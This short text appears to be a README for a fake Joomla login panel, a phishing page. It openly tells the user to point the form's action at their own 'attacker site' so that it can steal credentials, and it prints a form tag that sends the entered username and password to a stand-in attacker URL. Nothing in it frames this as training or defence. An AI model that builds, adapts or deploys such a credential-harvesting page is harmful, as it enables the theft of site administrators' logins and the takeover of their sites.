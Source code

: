 # Fake Joomla Login Panel
Please note that if you want to steal the credentials you have to edit the form action tag and put in there you attacker site at line: 8111

      <form action="http://localhost/security/attacker-site.php?username=username&passwd=password" method="get" id="form-login" class="form-inline">
